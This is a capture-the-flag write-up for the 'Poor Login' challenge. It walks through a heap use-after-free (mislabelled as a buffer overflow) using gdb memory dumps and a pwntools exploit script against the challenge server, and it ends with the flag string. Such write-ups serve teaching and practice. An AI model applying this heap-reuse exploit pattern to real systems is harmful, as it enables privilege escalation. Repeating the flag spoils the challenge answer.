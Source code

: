 ## Poor Login
The main idea finding the flag using Buffer Overflow.

#### Step-1:
After we download `login.tar.gz` from the cloud, we try to unzip that and we find a directory called `pwn-login` which has 2 files in it `login.c` and its executable `login`.

#### Step-2:
The program allows us to login, sign out, print flag, lock and restore user. Login `malloc` a block of memory on heap, it takes the 31 bytes input for username, adds 1 byte for end of string, allocated user is pointed to by `curr` pointer. We then sign out free the address that `curr` points towards. Then, lock user operation makes `save` pointer points to same address as `curr` does, while restoring operation does the opposite, it points `curr` to address pointed to by `save`. If `admin` field is set print flag operation call `system` to print out the flag, otherwise, it allows us to input a fake one. 

```c
struct creds {
  void *padding;
  char name[32];
  int admin;
};

struct creds *curr;
struct creds *save;

char *fake_flag;
```

#### Step-3:
If we login the first time with username `aaaaaaaabbbbbbbbccccccccddddddd`, we see the registers value as follows (as per gdb).

```bash
0x5555556032a0: 0x0000000000000000      0x6161616161616161
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```
Lock user to make `save` point to `curr`, logout current user to free `curr`, but `save` pointer still points to address `0x5555556032a0`.

```bash
0x5555556032a0: 0x0000000000000000      0x0000555555603010
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

We then finally, print flag now we are allowed to input a fake flag, `fake_flag` pointer will be allocated an area that previously freed and pointed to by `save` pointer. We need to input enough bytes to cover the struct so that `admin` field could be set to 1.

```bash
0x5555556032a0: 0x3131313131313131      0x3131313131313131
0x5555556032b0: 0x3131313131313131      0x3131313131313131
0x5555556032c0: 0x3131313131313131      0x3131313131313131
0x5555556032d0: 0x000000000000000a      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

#### Step-4:
Now we restore user to reuse data pointed to by `save` pointer. Print again flag, as this moment the `admin` field is set to 1, we are able to get to the call to `system` function.

```cmd
*** WINBLOWS LOGIN *********
1. Login into user.
2. Sign out.
3. Print flag.
4. Lock user.
5. Restore user.
> 3
Here's your flag:
[Detaching after vfork from child process 8343]
/bin/cat: /flag.txt: No such file or directory
```

#### Step-5:
In order to iterate through the operations on the server to get the flag, we write a small script `exploit.py`, which helps us to overflow that buffer to print out the flag.

```py
import pwn

host = "thekidofarcrania.com"
port = 13226
target = "./pwn-login/login" 

class Menu:

    def __init__(self, remote):
        if remote:
            self.pr = pwn.connect(host, port)
        else:
            self.pr = pwn.process(target)

    def login(self, name):
        self.pr.sendlineafter("> ", "1")
        self.pr.sendlineafter("Username: ", name)

    def sign_out(self):
        self.pr.sendlineafter("> ", "2")

    def print_flag(self, flag):
        self.pr.sendlineafter("> ", "3")
        line = self.pr.readline()
        if line.startswith(b"You are not admin."):
            self.pr.sendline(flag)
        else:
            print(line)
            print(self.pr.readline())

    def lock_user(self):
        self.pr.sendlineafter("> ", "4")

    def restore_user(self):
        self.pr.sendlineafter("> ", "5")
        
def exploit(remote):

    menu = Menu(remote)

    try:
        menu.login('A'*31)
        menu.lock_user()
        menu.sign_out()
        menu.print_flag(b'\x01'*40)
        menu.restore_user()
        menu.print_flag("")
    except Exception as ex:
        print(ex)
    finally:
        menu.pr.close()

exploit(True)
```

#### Step-6:
Executing the above script using the command `python3 exploit.py` gives us the flag as follows:

<img src="Flag.png">

#### Step-7:
Finally the flag becomes:
`CTFlearn{I_sh0uldve_done_a_ref_counter!!_:PPPPP}`